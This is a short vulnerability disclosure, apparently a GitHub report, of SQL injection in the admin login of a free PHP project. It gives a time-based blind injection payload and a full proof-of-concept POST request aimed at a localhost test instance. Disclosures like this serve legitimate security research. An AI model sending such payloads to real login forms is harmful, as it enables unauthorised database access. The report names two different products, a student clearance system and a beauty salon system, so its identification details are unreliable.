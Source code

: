 # Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code  (It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: Jing Xiong

2. vendors: [Beauty Salon Management System in PHP and MySQLi](https://www.campcodes.com/projects/beauty-salon-management-system-in-php-and-mysqli/);

3. The program is built using the PHP/8.1.10 version;

4. Vulnerability location: \Chic-Beauty-Salon-System\admin\index.php

# Vulnerability Verification

[+] Payload:

```java
username=SPCs' AND (SELECT 4652 FROM (SELECT(SLEEP(5)))BPWj) AND 'iSWn'='iSWn&password=ubhU&login=Sign
```

POC：

```js
POST /admin/ HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 130
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=4dq7vcodkmkfafhok7fkld9s4r
Host: 127.0.0.1:8081
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/admin/
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

username=SPCs%27+AND+%28SELECT+4652+FROM+%28SELECT%28SLEEP%285%29%29%29BPWj%29+AND+%27iSWn%27%3D%27iSWn&password=123&login=Sign+In
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：
![image](./sql2.png)


